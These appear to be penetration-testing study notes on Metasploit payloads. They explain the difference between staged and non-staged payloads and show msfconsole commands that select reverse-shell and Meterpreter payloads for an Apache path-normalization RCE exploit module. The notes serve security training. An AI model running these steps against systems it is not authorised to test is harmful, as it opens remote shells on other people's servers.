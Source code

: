 
### Staged vs Non-Staged
- Non-staged: "all-in-one" contains exploit and fill shellcode
- Staged: sent in two parts, drop implant then send rest of shellcode to execute

Display compatible payloads of the exploit module

```hlt:1,8,10
msf6 exploit(multi/http/apache_normalize_path_rce) > show payloads
Compatible Payloads
===================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
...
   15  payload/linux/x64/shell/reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Stager
...
   20  payload/linux/x64/shell_reverse_tcp                                normal  No     Linux Command Shell, Reverse TCP Inline
...
```
Note the `/`- denotes if payload is staged 
`shell/reverse_tcp` - staged
`shell_reverse_tcp`- not staged

Using staged payload and immediately obtain reverse shell

```
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 15
payload => linux/x64/shell/reverse_tcp
```

### Meterpreter Payload

Find non-staged 64-bit Meterpreter TCP reverse shell payload 

```
msf6 exploit(multi/http/apache_normalize_path_rce) > show payloads
```

```
   11  payload/linux/x64/meterpreter_reverse_tcp                          normal  No     Linux Meterpreter, Reverse TCP Inline
```

```
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload 11
```

```
msf6 exploit(multi/http/apache_normalize_path_rce) > show options
```

Execute the payload
